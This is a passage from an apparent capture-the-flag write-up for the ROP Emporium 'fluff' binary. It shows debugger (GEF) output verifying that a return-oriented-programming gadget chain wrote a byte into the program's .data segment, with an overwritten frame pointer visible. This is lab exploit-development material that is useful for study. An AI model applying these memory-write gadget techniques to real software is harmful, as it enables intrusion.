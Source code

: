 ```
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```

Let's verify that we wrote `0x66` (i.e. `f` in ascii) to the writable `.data` segment at 0x00601028:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x66              
$rbx   : 0x00000000004003b9  →   add BYTE PTR [rax], al
$rcx   : 0x00000000004003b9  →   add BYTE PTR [rax], al
$rdx   : 0x4000            
$rsp   : 0x00007fff7c30a210  →  0x000000000000000a
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f9415efc723  →  0xefe670000000000a
$rdi   : 0x0000000000601029  →  0x0000000000000000
$rip   : 0x000000000040063a  →  <questionableGadgets+18> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff52d
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fff7c30a210│+0x0000: 0x000000000000000a   ← $rsp
0x00007fff7c30a218│+0x0008: 0xf82ac1961fafc0a8
0x00007fff7c30a220│+0x0010: 0x0000000000400520  →  <_start+0> xor ebp, ebp
0x00007fff7c30a228│+0x0018: 0x0000000000000000
0x00007fff7c30a230│+0x0020: 0x0000000000000000
0x00007fff7c30a238│+0x0028: 0x0000000000000000
0x00007fff7c30a240│+0x0030: 0x07d4397750cfc0a8
0x00007fff7c30a248│+0x0038: 0x0702eaba6a29c0a8
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400633 <questionableGadgets+11> bextr  rbx, rcx, rdx
     0x400638 <questionableGadgets+16> ret    
     0x400639 <questionableGadgets+17> stos   BYTE PTR es:[rdi], al
 →   0x40063a <questionableGadgets+18> ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "fluff", stopped 0x40063a in questionableGadgets (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40063a → questionableGadgets()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/2xg 0x0000000000601028
0x601028:       0x0000000000000066      0x0000000000000000
```
